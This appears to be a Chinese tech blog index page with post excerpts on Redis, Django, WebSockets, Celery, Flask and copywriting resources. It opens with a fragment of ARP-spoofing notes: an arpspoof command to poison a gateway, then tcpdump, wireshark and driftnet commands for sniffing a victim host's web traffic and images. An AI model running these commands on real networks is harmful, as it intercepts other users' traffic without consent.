`arpspoof -i eth0 -t 10.108.112.1 10.108.112.243`  
欺骗网关 当前主机是112.243  
10.108.115.122

## 2. 使用tcpdump 查看tcp信息

### 查看80端口

`tcpdump -i eno0 dst host 10.108.112.243 and port 80`

`tcpdump -i enp2s0 '((tcp) and (port 80) and ((host 10.108.113.147)))' -A`

查看 被攻击主机的80端口信息

## 使用 wireshark

`ip.host == 10.108.115.122 and tcp.port ==80`

## 使用 driftnet 捕捉图片

`driftnet -i etn0`

# redis-python 操作

发表于 2017/05/05

## 安装pyredis

首先安装pip

[output not shown]

[output not shown]

## 简单的redis操作

阅读全文 »

# python 解析XML

发表于 2017/05/05

> xml.etree.cElementTree 解析 xml 非常好用

阅读全文 »

# Django 自建过滤器

发表于 2017/05/05

> 在前端显示的时候遇到了时间格式转换的问题, 由于Djang内置格式化时间工具不支持float 类型的时间戳， 所以需要自建一个格式化函数

阅读全文 »

# pythonic一句话之产生随机字符

发表于 2017/05/05

> 一句话产生随机字符

> ```
> target_name = ''.join(map(lambda xx: (hex(ord(xx))[2:]), os.urandom(16)))
> ```

# WebSockets学习

发表于 2017/05/05

# WebSockets基本

一个 WebSocket 连接允许在客户端和服务端之间进行全双工通讯，从而每一端都可以通过建立的连接向另一端推送数据。 WebSocket，以及与其相关的 服务端发送事件 (SSE) 及 WebRTC 数据通路 等技术之所以重要的原因是：HTTP不能打开并一直保持连接，不能在服务端和 Web 浏览器之间进行频繁的数据推送。

[figure not shown]

阅读全文 »

# celery 学习笔记

发表于 2017/05/05

# celery 分布式任务队列工具

Celery是一个分布式任务队列工具，是一个异步的任务队列基于分布式消息传递

## 基本

> - Broker: 消息队列使用的中间人 有RabbiMQ redis mongodb 等一系列数据库
> - Task: 用来定义任务
> - backend: 用来保存结果
> - Worker: 执行单元， 用来从中间人取出任务 ， 并把结果发给backen

阅读全文 »

# flask 下载文件

发表于 2017/05/05

> 用flask 生成csv并搭建静态文件下载接口

阅读全文 »

# 文案

发表于 2017/05/05

# Blog /问答

### 知乎问答

文案应该看哪些书或者资料 https://www.zhihu.com/question/27636390  
文案（或文案策划）职位在国内的现状是怎样的呢 https://www.zhihu.com/question/24319980  
怎样提高文案写作能力？ https://www.zhihu.com/question/21232981  
如何让文案做得漂亮 https://www.zhihu.com/question/29215749  
有哪些广告词让你感到惊艳 https://www.zhihu.com/question/22730552  
如何让你快速写出一篇引爆微信朋友圈软文？ https://www.zhihu.com/question/27449416  
你见过的最好的软文是哪一篇 https://www.zhihu.com/question/27939810  
什么叫做走心的文案，怎么写走心的文案 https://www.zhihu.com/question/26585277  
什么是「自嗨型文案」？如何避免 https://www.zhihu.com/question/30885557  
新媒体运营编辑的出路在哪里 https://www.zhihu.com/question/25921758  
如何锻炼成一个好的新媒体运营的文案 https://www.zhihu.com/question/31828046  
有哪些一句话的好文案 https://www.zhihu.com/question/31612848

### 知识

技能点图 http://www.jianshu.com/p/7364dc774891  
如何创作全球一流的文案 http://www.jianshu.com/p/66fac84c50cf

### 文案必备网站

https://www.zhihu.com/question/23364602  
http://www.topys.cn/  
http://www.wenangou.com/xieyin.html  
http://www.digitaling.com/  
http://www.quanjing.com/ （素材）

# 理财文案

http://www.digitaling.com/articles/21003.html  
http://www.digitaling.com/projects/16968.html  
http://www.digitaling.com/projects/17884.html  
http://www.digitaling.com/search/projects?kw=%E7%90%86%E8%B4%A2

# 课程

踏浪 http://www.talang100.com/  
网易云课堂 http://study.163.com/search.htm?p=%E6%96%87%E6%A1%88  
馒头商学院 http://www.mtedu.com/hulianwangyingxiao

# 文本相识度

发表于 2017/05/05

> 局部敏感哈希(LSH)

阅读全文 »

# open-falcon监控系统调研

发表于 2017/05/05

## 采集格式 类似于openTSDB

### TSdb 相关链接

TSDB http://liubin.org/blog/2016/02/18/tsdb-intro/  
openTSDB http://liubin.org/blog/2016/03/05/tsdb-opentsdb/

阅读全文 »